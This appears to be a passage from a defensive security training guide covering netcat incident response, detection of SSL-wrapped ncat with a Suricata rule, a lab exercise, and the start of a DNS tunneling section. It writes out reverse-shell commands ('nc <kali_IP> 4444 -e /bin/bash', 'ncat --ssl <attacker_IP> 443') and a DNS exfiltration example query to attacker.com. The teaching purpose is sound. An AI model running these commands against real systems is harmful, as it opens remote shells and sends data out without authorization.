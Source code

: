 
### **4. Incident Response Playbook (netcat)**  
**Scenario**: Netcat reverse shell detected on a workstation.  
1. **Contain**:  
   - Isolate the host from the network (disable NIC via `netsh interface set interface "Ethernet" disable`).  
2. **Investigate**:  
   - Capture process memory with `dumpmem` or `Volatility`:  
     ```bash  
     volatility -f memory.dump --profile=Win10x64 netscan  
     ```  
   - Check for `nc` in `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.  
3. **Eradicate**:  
   - Terminate the netcat process: `taskkill /IM nc.exe /F`.  
   - Remove persistence entries.  
4. **Hunt**:  
   - Search SIEM logs for other hosts connecting to the attacker’s IP.  

---

### **5. Advanced Detection: Encrypted Netcat (ncat with SSL)**  
Adversaries often wrap netcat in SSL to evade detection:  
```bash  
ncat --ssl <attacker_IP> 443  
```  
**Detection**:  
- Use JA3/S hashes to fingerprint SSL/TLS clients (ncat uses OpenSSL libraries):
- Suricata rule:  
  ```suricata  
  alert tls any any -> any any (msg:"Suspicious JA3 Hash"; ja3.hash; content:"a0e9f5d64349fb13191bc781f81f42e1"; sid:1000002;)  
  ```  

---

### **6. Lab Exercise**  
1. **Simulate a Netcat Attack**:  
   - On Kali: `nc -lvp 4444`  
   - On Victim: `nc <kali_IP> 4444 -e /bin/bash`  
2. **Detect with Zeek**:  
   - Analyze `conn.log` for raw TCP sessions.  
3. **Write a Custom Suricata Rule**:  
   - Trigger an alert when `nc` connects to port 4444.  

---

## **1. DNS Tunneling**  
DNS tunneling abuses the DNS protocol to exfiltrate data or establish command-and-control (C2) channels. Since DNS is rarely blocked, it’s a favourite for bypassing firewalls.  

### **How It Works**  
- **Mechanism**: Encode data into DNS queries/responses (e.g., subdomains, TXT records).  
  - Example query: `A3BZXC3TEEQ.data.attacker.com` (where `A3BZXC3TEEQ` is Base32-encoded exfiltrated data).  
- **Tools**: `dnscat2`, `iodine`, `dns2tcp`.  
